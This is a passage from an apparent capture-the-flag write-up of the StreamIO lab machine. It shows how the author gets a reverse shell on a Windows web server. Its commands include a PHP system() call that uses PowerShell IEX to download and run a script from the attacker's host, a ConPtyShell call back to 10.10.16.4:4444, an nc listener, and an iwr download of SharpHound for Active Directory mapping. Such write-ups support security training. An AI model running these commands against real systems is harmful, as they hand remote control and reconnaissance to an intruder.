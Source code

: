 The response:

![image.png]({{ site.baseurl }}/assets/streamio/image%2032.png)

Looks like it works. Let’s get a reverse shell now. Let’s use the ConPTY shell. Let’s also add the following at the end of the file in our conptyshell ps script:

```bash
Invoke-ConPtyShell 10.10.16.4 4444
```

Now start a listener:

```bash
stty raw -echo; (stty size; cat) | nc -lvnp 4444
```

And change our cmd.php script to the following:

```bash
system("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/conpty.ps1')");

```

Now start our listeners:

```bash
#on one terminal 
python3 -m http.server 80
```

Now let’s execute on our burp the same request as before:

![image.png]({{ site.baseurl }}/assets/streamio/image%2033.png)

We now have shell:

![image.png]({{ site.baseurl }}/assets/streamio/image%2034.png)

Let’s enumerate our privileges:

```bash
whomai /priv

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Nothing interesting.

We can’t go into other user’s dir either. Let’s upload SharpHound and map out the AD.

```bash
#on attack
python3 -m http.server 8001

#on target
cd C:\inetpub\temp
iwr http://10.10.16.4:8001/SharpHound.exe -OutFile sharphound.exe
```

